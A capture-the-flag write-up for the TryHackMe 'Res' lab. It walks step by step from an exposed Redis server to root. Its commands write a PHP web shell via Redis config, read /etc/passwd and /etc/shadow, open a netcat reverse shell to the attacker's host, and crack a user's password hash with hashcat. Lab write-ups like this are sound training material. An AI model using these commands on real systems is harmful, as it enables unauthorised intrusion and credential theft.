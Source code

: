 
# TryHackMe: Res (Write-up)

Res is a TryHackMe CTF.
Has a vulnerable in-memory data-structure. 

## Nmap scan

The scan shows there are two services open.
HTTP on 80, Redis on 6379,

```
kali@kali:~/Desktop/repos/ctf/try-hack-me/res$ nmap -A -p- 10.10.31.234 | tee nmap.txt                                 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-03 01:28 BST
Nmap scan report for 10.10.31.234
Host is up (0.054s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.44 seconds
```

Redit is a database system. 
The version used on this server is 6.0.7.

## Redis Setup 

I'm not particularly familiar with Redis.

There's _[cli](https://redis.io/topics/rediscli)_ that can be used to send commands to Redis.

Fortunately there's some nice [Redis documentation](https://redis.io/documentation) too.

If you're running kali you might need to install Redis.
It was not installed by default for me.

```shell
sudo apt install redis
```

Installing Redis gives us the `redis-cli` command.
We can connect to Redis servers with the following

```shell
redis-cli -h XXX.XXX.XXX.XXX -p YYYY
```

```
kali@kali:~/Desktop/repos/ctf/try-hack-me/res$ redis-cli -h 10.10.31.234 -p 6379
10.10.31.234:6379>
```

At which point we can inject code into the `/var/www/html` directory.
This is where the apache default page will be sat.

```shell
kali@kali:~/Desktop/repos/ctf/try-hack-me/res$ redis-cli -h 10.10.31.234 -p 6379                                    
10.10.31.234:6379[1]> ping
PONG
10.10.31.234:6379[1]> flushall
OK
10.10.31.234:6379[1]> config set dir /var/www/html
OK
10.10.31.234:6379[1]> config set dbfilename true.php
OK
10.10.31.234:6379[1]> SET PAYLOAD "<?php echo shell_exec(\$_GET['cmd']);?>"
OK
10.10.31.234:6379[1]> BGSAVE
Background saving started
```

This will create file `true.php`. 
The `cmd` parameter will allow us to execute code.

Nagivate to: `http://10.10.31.234/true.php?cmd=ls`.
Output is a bit messy, but we get RCE.
See section `dump.rdb index.html true.php`.

```shell
## ls 
REDIS0009� redis-ver6.0.7� redis-bits�@�ctime�w_used-mem�x�aof-preamble��See section ``�See section ``AYLOAD&dump.rdb index.html true.php ��e�r�*�~
```

```shell
## ls -lah ../
REDIS0009�	redis-ver6.0.7�
redis-bits�@�ctime�w_used-mem�x�aof-preamble��#�#AYLOAD&total 12K
drwxr-xr-x  3 root root 4.0K Sep  2 09:54 .
drwxr-xr-x 12 root root 4.0K Sep  2 09:54 ..
drwxrwxrwx  2 root root 4.0K Oct  2 18:01 html
��e�r�*�~
```

```shell
## http://10.10.31.234/true.php?cmd=ls%20-lah%20/home;%20whoami;%20groups;%20cat%20/etc/passwd

REDIS0009�	redis-ver6.0.7�
redis-bits�@�ctime�w_used-mem�x�aof-preamble��
�
AYLOAD&total 12K
drwxr-xr-x  3 root   root   4.0K Sep  1 17:02 .
drwxr-xr-x 22 root   root   4.0K Sep  1 18:57 ..
drwxr-xr-x  5 vianka vianka 4.0K Sep  2 13:52 vianka
www-data
www-data
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
vianka:x:1000:1000:Res,,,:/home/vianka:/bin/bash
��e�r�*�~
```

So, we know there's some user `vianka`. 
We're currently running commands as `www-data`.
We're in the `www-data` group.

## Get reverse shell

Its time we got shell!

/home/vianka doesn't contain any SSH keys.
We can use a reverse netcat shell.
Then upgrade, potentially with Python PTY.

```
10.10.31.234/true.php?cmd=nc 10.11.8.219 4444 -e /bin/sh
```

Running the above after we start listening on our attacker machine connects us.
I tried the mkfifo reverse shell at first. This failed.
I than ran `man nc` and saw the servers version allows `-e` flag.
Which is great, and simple to use.

```
kali@kali:~/Desktop/repos/ctf/try-hack-me/res$ nc -lvp 4444
listening on [any] 4444 ...
10.10.31.234: inverse host lookup failed: Unknown host
connect to [10.11.8.219] from (UNKNOWN) [10.10.31.234] 47752
whoami
www-data
```

## Upgrade shell

First check we have Python.
We do.
Then upgrade shell, and call bash.

```shell
whereis python
python: /usr/bin/python2.7 /usr/bin/python /usr/bin/python3.5m /usr/bin/python3.5 /usr/lib/python2.7 /usr/lib/python3.5 /etc/python2.7 /etc/python /etc/python3.5 /usr/local/lib/python2.7 /usr/local/lib/python3.5 /usr/share/python /usr/share/man/man1/python.1.gz
python -c 'import pty; pty.spawn("/bin/sh")'
$ bash
bash
www-data@ubuntu:/var/www/html$
```
## Privesc

Exploit xxd (has SUID)

```shell
find -type f -perm /4000 2>/dev/null
```

We can get /etc/shadow.

```shell
www-data@ubuntu:/var/www/html$ xxd /etc/shadow | xxd -r
xxd /etc/shadow | xxd -r
root:!:18507:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18506:0:99999:7:::
uuidd:*:18506:0:99999:7:::
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

Run viankas password through `hashcat`.
Make sure to escape the `$`s... `\$`.

```shell
hashcat -a 0 -m 1800 \$6\$2p.tSTds\$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/
```

Switch user to `vianka`.

```shell
su vianka
Password: beautiful1
```

```shell
vianka@ubuntu:~$ sudo -l
```

Check `vianka`'s `sudo -l`.

```shell
Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

We can run all commands with `sudo`.


```shell
vianka@ubuntu:~$ sudo cat /root/root.txt
sudo cat /root/root.txt
thm{redacted}
```

And there we have it.

